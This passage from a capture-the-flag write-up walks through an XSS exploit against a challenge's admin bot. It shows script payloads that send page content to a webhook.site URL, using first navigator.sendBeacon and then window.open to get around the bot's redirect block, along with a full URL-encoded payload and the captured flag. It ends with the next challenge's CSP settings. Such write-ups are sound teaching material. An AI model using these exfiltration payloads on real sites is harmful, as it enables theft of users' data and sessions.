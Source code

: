 ![[Pasted image 20241126214436.png]]
Next, we have to exfiltrate the flag. I tried using `navigator.sendBeacon` but that was blocked by the csp.
```javascript
<script>  
    setTimeout(()=>navigator.sendBeacon("https://webhook.site/...?"+Array.from(document.getElementsByTagName("p"))[0].innerHTML), 100)  
</script>
```
![[Pasted image 20241126214659.png]]
We could also try redirects, however the admin block will prevent that:
```javascript
...
// blocks cross-origin redirects  
await page.setRequestInterception(true);  
// Prevents any redirections out of the site  
page.on('request', request => {  
    requestURLObj = new URL(request.url())  
    if (request.isNavigationRequest() && (requestURLObj.origin != urlObj.origin)) {  
      request.abort();  
      console.log('uh oh')  
      console.log(requestURLObj)  
    } else {  
        console.log('all good')  
        request.continue();  
    }  
});   
await page.goto(url);
...
```
It should be noted that the bot specifically blocks navigation requests(E.g. redirects) out of the page, but the bot does not block new tabs from being created. We can exploit that by using `window.open()`
```html
<script>  
    setTimeout(()=>window.open("https://webhook.site/...?"+Array.from(document.getElementsByTagName("p"))[0].innerHTML), 100)  
</script>
```
![[Pasted image 20241126215135.png]]
All that is left is to submit that payload to the `/report` endpoint, where the admin bot will visit that site and view the version of the page with the actual flag.
`http://127.0.0.1:8000/greet?name=%3Cscript%3E+++++setTimeout%28%28%29%3D%3Ewindow.open%28%22https%3A%2F%2Fwebhook.site%2F73f9aac1-f3cc-4784-bec3-1615d26a4031%3F%22%2BArray.from%28document.getElementsByTagName%28%22p%22%29%29%5B0%5D.innerHTML%29%2C+500%29+%3C%2Fscript%3E`
`blahaj{n0t_50_s3cuRe_1sit}`

## Secure content
This challenge is similar to [[#Insecure content]], with the following changes
1. The `script-src` policy is now present
```python
   @app.after_request  
def apply_csp(response: Response) -> Response:  
    csp = (  
        "connect-src 'none'; "  
        "font-src 'none'; "        "frame-src 'none'; "        "img-src 'self'; "        "manifest-src 'none'; "        "media-src 'none'; "        "object-src 'none'; "        "script-src 'none'; "        "worker-src 'none'; "        "style-src 'self'; "        "frame-ancestors 'none'; "        "block-all-mixed-content;"        "require-trusted-types-for 'script';"    )  
    response.headers['Content-Security-Policy'] = csp  
    return response
```
2. Puppeteer is no longer used. As such, redirects are now allowed